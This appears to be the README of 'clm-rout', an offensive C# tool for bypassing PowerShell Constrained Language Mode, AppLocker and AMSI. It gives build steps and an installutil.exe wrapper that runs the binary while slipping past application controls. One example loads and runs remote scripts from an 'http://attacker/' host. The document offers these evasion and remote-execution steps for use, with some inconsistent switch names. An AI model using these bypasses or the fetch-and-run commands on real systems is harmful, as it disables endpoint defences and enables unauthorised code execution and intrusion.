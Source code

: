 # clm-rout

[![Language](https://img.shields.io/badge/Lang-C%23-blue)](https://docs.microsoft.com/en-gb/powershell/)
[![License](https://img.shields.io/badge/License-BSD%203-red.svg)](https://docs.microsoft.com/en-us/dotnet/csharp/)

## An all-in-one bypass for `PowerShell Constrained Language Mode` (`CLM`), `AppLocker` and `Antimalware Scan Interface` (`AMSI`) using Runspace.

## Features

- Evade `AppLocker`.
- Evade `CLM`.
- Patch `AMSI` via the `/pacth` command switch.
- Execute command(s) via the `/cmd=<cmd>` command switch.
- Load and execute remotely hosted script(s) via the `/url=<http(s)://foo.bar/foobar>` command switch.
- Output the results of commands/scripts (supports `stdout` and `stderr`).

## Installation

1. Clone/download `clm-rout`:

    ```powershell
    git clone https://github.com/aress31/clm-rout
    ```

2. Build the project with `Visual Studio 2022`.

## Usage

- (Recommended) Create an "alias" for the function:

```powershell
function run {
	C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe `
		/uninstall /logfile= /LogToConsole=false `
		/patch $Args `
		C:\users\foo\CLMRout.exe
}
```

### Examples

- Execute command(s):

    ```powershell
    run /cmd="hostname; whoami"
    ```

- Execute remote script(s):

    ```powershell
    run /script="http://attacker/script1.ps1; http://attacker/script2.ps1"
    ```

## Sponsor 💓

If you want to support this project and appreciate the time invested in developping, maintening and extending it; consider donating toward my next (cup of coffee ☕/lamborghini 🚗) - as **a lot** of my **personal time** went into creating this project. 😪

It is easy, all you got to do is press the `Sponsor` button at the top of this page or alternatively [click this link](https://github.com/sponsors/aress31). 😁

## Reporting Issues

Found a bug 🐛? I would love to squash it!

Please report all issues on the GitHub [issues tracker](https://github.com/aress31/clm-rout/issues).

## Contributing

You would like to contribute to better this project? 🤩

Please submit all `PRs` on the GitHub [pull requests tracker](https://github.com/aress31/clm-rout/pulls).

## License

`clm-rout` is distributed under the terms of the `BSD 3`.

See [LICENSE](./LICENSE) for details.